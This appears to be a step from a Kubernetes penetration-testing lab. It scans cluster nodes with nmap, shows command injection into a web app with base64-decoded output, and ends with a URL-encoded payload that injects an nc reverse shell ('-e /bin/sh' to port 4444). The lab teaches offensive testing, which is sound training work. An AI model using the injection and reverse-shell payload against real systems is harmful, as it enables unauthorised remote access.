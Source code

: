 ### Scan for open ports might take some time

`nmap <Copy Link from the above scenerio of master node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

`nmap <Copy Link from the above scenerio of worker node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

### Enter test;%20ls in the webapp

`echo "RG9ja2VyZmlsZQphcGkucHkKcmVxdWlyZW1lbnRzLnR4dAo=" | base64 --decode`{{execute}}

### Enter test;which%20nc

`echo "L3Vzci9iaW4vbmMK" | base64 --decode`{{execute}}

test;nc%20[[HOST_SUBDOMAIN]]-80-[[KATACODA_HOST]].[[KATACODA_DOMAIN]]%204444%20-e%20/bin/sh
